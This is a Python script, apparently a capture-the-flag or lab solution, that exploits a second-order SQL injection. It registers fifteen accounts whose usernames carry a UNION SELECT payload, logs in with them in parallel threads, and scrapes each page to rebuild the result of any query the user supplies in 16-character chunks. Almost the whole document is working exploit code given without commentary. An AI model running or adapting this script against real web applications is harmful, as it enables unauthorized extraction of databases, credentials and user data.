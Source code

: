 ```python
#!/usr/bin/env python3

import requests
import sys
from bs4 import BeautifulSoup
import threading
import time

url_base = sys.argv[1]
payload = sys.argv[2]

sessions = {}
results = {}


def create_and_login(i, sqli_payload):
    s = requests.session()
    s.post(url_base + "register.php", data={"username": sqli_payload, "password": "jxf", "submit": "Submit Query"})
    s.post(url_base + "login.php", data={"username": sqli_payload, "password": "jxf", "login": "Submit Query"})
    sessions[i] = s
    return


def fetch_query_result(i):
    r = sessions[i].get(url_base)
    soup = BeautifulSoup(r.text, "html.parser")
    tables = soup.find_all("table", class_="u-full-width")
    output = tables[1].find("td").get_text()
    results[i] = output
    return


threads = []
for i in range(15):
    sqli_payload = f'" UNION SELECT 1, SUBSTR(({payload}), {i * 16 + 1}, 16);#'
    thread = threading.Thread(target=create_and_login, args=(i, sqli_payload))
    threads.append(thread)
    thread.start()

for thread in threads:
    thread.join()

while True:
    threads = [threading.Thread(target=fetch_query_result, args=(i,)) for i in range(15)]
    for thread in threads:
        thread.start()
    for thread in threads:
        thread.join()

    # check that we are not missing any part of the result
    if all([len(results[i]) <= len(results[i - 1]) for i in range(1, 15)]):
        result = "".join([results[i] for i in range(0, 15)])
        if len(result) > 16:
            print(result)
            sys.exit(0)
            
    time.sleep(1)
```

